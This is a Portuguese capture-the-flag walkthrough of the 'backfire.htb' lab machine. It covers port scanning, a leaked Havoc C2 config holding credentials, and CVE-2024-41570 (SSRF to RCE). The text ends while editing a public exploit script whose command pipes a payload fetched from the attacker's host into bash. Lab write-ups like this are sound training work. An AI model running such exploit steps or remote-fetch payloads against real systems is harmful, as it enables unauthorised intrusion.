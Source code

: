 # Info
#Difficult : Medium
#Tools : Nmap, nc, Python3
#IP_Alvo : 10.10.11.49
#IP_Atacante : 10.10.15.28
***
# Port Scanning
Com sempre começo escaneando o host para ter uma noção dos serviços rodando na máquina alvo.
```sh
nmap 10.10.11.49 -Pn -sC -sV -A -oN nmap_output
```
![[Pasted image 20250325080228.png]]
Algumas portas estão abertas com `22`, `443`, `5000` e `8000`, mas a que me interessou foi a `8000`, no qual o Nmap identificou dois arquivos. Podemos abrir essa porta para dar uma olhada.

Podemos baixar esses dois arquivos e olharmos eles.
![[Pasted image 20250325080749.png]]

Após uma pesquisa sobre o nome do arquivo `havoc.yaotl`, descubro que ele é um arquivo de configuração do Framework de pos-exploração Havoc.
```sh
cat havoc.yaotl
```
![[Pasted image 20250325081122.png]]

No arquivo temos algumas credenciais expostas. Então pesquisei para verificar se havia alguma CVE já conhecida. Nesse caso havia a ``CVE-2024-41570`` de um ``SSRF`` que leva a um ``RCE``.
![[Pasted image 20250325113117.png]]

Podemos também adicionar `backfire.htb` no nosso arquivo de hosts.
```sh
echo "10.10.11.49    backfire.htb" >> /etc/hosts
```

> [!info] Análise
>Reserve um tempo para ler a análise do [Post](https://blog.chebuya.com/posts/server-side-request-forgery-on-havoc-c2/) sobre a vulnerabilidade.

***
# RCE
Então busquei algum exploit, e escolhi o primeiro que apareceu.
![[Pasted image 20250325082608.png]]
Exploit : https://github.com/thisisveryfunny/CVE-2024-41570-Havoc-C2-RCE?tab=readme-ov-file

Podemos clona-lo e instalar suas dependências.
```sh
git clone https://github.com/thisisveryfunny/CVE-2024-41570-Havoc-C2-RCE?tab=readme-ov-file
cd CVE-2024-41570-Havoc-C2-RCE
pip3 install -r requirements.txt
```
#### Modificando o exploit
Temos que modificar o`exploit.py` para as configurações que achamos. `port` e `host`, são os que estão no ``Listeners{...}``.
**exploit.py**
```python 
212  USER = "sergej" # CHANGE THIS
213  PASSWORD = "1w4nt2sw1tch2h4rdh4tc2" # CHANGE THIS
214  host = "backfire.htb" # CHANGE THIS
215  port = 8443 # CHANGE THIS
232  cmd = "curl http://10.10.15.28:8000/payload.sh | bash" # CHANGE THE IP AND THE PORT
```